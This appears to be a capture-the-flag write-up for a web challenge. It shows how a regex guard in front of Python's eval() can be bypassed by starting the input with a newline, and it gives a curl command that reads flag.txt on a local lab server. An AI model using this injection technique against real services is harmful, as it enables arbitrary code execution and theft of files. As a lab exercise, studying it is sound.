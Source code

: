 #web 
### Code analysis
we see this line here where `user_code` is supplied by the user to an eval function that will execute python code:
`result = eval(user_code)`

but before that there is a strict regex that will stop us from entering any characters in `user_code`:
```python
if re.match(".*[\x20-\x7E]+.*", user_code):
	return jsonify({"output": "PEW PEW you can't use chars"}), 403
```

## Solution
`re.math` if used against multiple lines it will check only the first line so the solution is to simply enter an empty new line and then in the second write our payload

* run the following curl command : 
```bash
curl -X "POST" http://127.0.0.1:1337/pew -d "pew=
open('flag.txt').read()"
```


